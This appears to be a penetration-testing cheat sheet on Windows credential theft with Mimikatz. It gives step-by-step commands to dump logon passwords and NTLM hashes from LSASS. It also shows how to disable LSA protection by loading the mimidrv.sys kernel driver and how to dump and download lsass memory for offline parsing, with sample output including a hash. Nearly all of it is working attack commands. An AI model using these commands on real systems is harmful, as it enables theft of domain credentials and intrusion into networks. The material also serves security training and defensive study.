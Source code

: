 #### Logon Passwords

##### Mimikatz Logon Passwords 

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 59564789 (00000000:038ce2f5)
Session           : RemoteInteractive from 3
User Name         : offsec
Domain            : CORP1
Logon Server      : DC01
Logon Time        : 4/2/2021 6:15:10 AM
SID               : S-1-5-21-3736398112-481754977-1285760525-1106
        msv :
         [00000003] Primary
         * Username : offsec
         * Domain   : CORP1
         * NTLM     : 2892d26cdf84d7a70e2eb3b9f05c425e
[...]
```

##### Disable LSA protection with Mimikatz

```
# must be local admin or SYTEM
mimikatz # !+

# disable PPL (requires uploading mimidrv.sys)
mimikatz # !processprotect /process:lsass.exe /remove

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
[...]
```

##### Disable LSA Protection with Invoke-Mimikatz

```
# upload driver
> Upload /filepath:"C:\windows\tasks\mimidrv.sys"

# configure the driver service
> shellcmd sc create mimidrv binPath= C:\windows\tasks\mimidrv.sys type= kernel start= demand

> shellcmd sc start mimidrv

# disable PPL
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""

# procdump, mimikatz, or custom minidumpwritedump
> Assembly /assemblyname:"MyMiniDump" /parameters:""

# get local copy
> download c:\windows\tasks\lsass.dmp

# local windows
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit 
```
